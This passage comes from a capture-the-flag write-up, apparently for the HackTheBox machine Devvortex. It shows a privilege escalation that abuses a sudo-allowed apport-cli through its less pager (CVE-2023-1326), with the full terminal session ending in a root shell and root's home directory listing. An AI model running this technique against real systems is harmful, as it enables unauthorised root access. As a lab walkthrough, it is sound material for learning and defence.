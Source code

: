 This user can execute apport-cli with sudo! Lets do a quick check on Google for any vulnerabilities. We found a [PoC](https://github.com/canonical/apport/commit/e5f78cc89f1f5888b6a56b785dddcb0364c48ecb) for CVE-2023-1326, according to which:
> The apport-cli supports view a crash. These features invoke the default pager, which is likely to be less, other functions may apply. It can be used to break out from restricted environments by spawning an
interactive system shell. If the binary is allowed to run as superuser by sudo, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

We will follow the PoC and manage to get command execution as root!

```bash
logan@devvortex:/var/tmp$ cd /var/crash
logan@devvortex:/var/crash$ touch exploit.crash
logan@devvortex:/var/crash$ sudo apport-cli -c exploit.crash less

*** Collecting problem information

The collected information can be sent to the developers to improve the
application. This might take a few minutes.
.................

*** Send problem report to the developers?

After the problem report has been sent, please fill out the form in the
automatically opened web browser.

What would you like to do? Your options are:
  S: Send report (1.7 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): V

What would you like to do? Your options are:
  S: Send report (1.7 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): V

What would you like to do? Your options are:
  S: Send report (1.7 KB)
  V: View report
  K: Keep report file for sending later or copying to somewhere else
  I: Cancel and ignore future crashes of this program version
  C: Cancel
Please choose (S/V/K/I/C): v
uid=0(root) gid=0(root) groups=0(root)
!done  (press RETURN)
total 28
drwx------  4 root root 4096 Nov 21 11:04 .
drwxr-xr-x 19 root root 4096 Oct 26 15:12 ..
lrwxrwxrwx  1 root root    9 Jan 20  2021 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwxr-xr-x  3 root root 4096 Oct 29 16:21 .cleanup
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
drwx------  2 root root 4096 Oct 26 15:12 .ssh
-rw-r-----  1 root root   33 Nov 28 15:00 root.txt
!done  (press RETURN)
```
